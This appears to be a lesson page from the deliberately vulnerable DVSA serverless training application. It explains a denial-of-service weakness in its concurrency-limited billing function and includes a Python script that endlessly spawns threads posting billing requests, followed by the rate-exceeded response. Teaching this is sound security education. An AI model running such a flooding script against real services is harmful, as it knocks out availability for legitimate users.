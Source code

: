 # LESSON #6: Denial of Service (DoS)

To avoid flooding the 3rd party payment processing (its not really 3rd-party, but think about it as a STIPE) the DVSA is configured to allow only 10 concurrent invocation of the billing processing.

This means that an attacker can cause a Denial of Service on the payment processing in the applicaiton, simply by sending the billing request in at least 10 parallel threads.

This simply python code will exploit it (with sample data):
```
import threading
import requests

def dos():
    payload = '{ "action":"billing", "order-id": "9f51b1e1-eff9-4dc1-8e17-7ee19ba51272", "data": {"ccn": "4242424242424242", "exp": "11/2020", "cvv": "444"} }'
    url = "https://qz0yy61905.execute-api.us-east-1.amazonaws.com/dev/order"
    headers = {"Authorization": "eyJraWQiOiIyQ1dZekh0dTV..............BVVplWk9qenw"}

    r = requests.post(url, data=payload, headers=headers)
    print (r.text)
    return


while True:
    threading.Thread(target=dos).start()

```

As a result, any other user that will try to invoke this service will receice:
```
{"message":"Rate Exceeded.","code":"TooManyRequestsException","time":"2018-12-22T23:25:29.935Z","requestId":"deec6aa7-0640-11e9-9e02-a529a60fefd1","statusCode":429,"retryable":false,"retryDelay":17.57835303415325}
```
